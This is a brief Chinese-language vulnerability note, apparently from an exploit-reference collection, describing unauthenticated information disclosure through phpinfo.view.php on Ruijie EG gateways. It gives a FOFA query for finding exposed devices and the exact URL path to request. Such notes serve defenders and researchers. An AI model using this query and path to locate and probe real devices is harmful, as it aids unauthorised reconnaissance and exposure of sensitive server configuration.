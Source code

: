 # 锐捷EG易网关-phpinfo.view.php-信息泄露漏洞

## 漏洞描述

锐捷EG易网关 部分版本 phpinfo.view.php文件权限设定存在问题，导致未经身份验证获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 锐捷EG易网关

## FOFA

> [!NOTE]
>
> app="Ruijie-EG易网关"

## 漏洞复现

查看源码发现phpinfo文件 

![](锐捷EG易网关-phpinfo.view.php-信息泄露漏洞.assets/1627363603077982.jpg)

访问 url

```
/tool/view/phpinfo.view.php
```

![](锐捷EG易网关-phpinfo.view.php-信息泄露漏洞.assets/16273636034004009.jpg)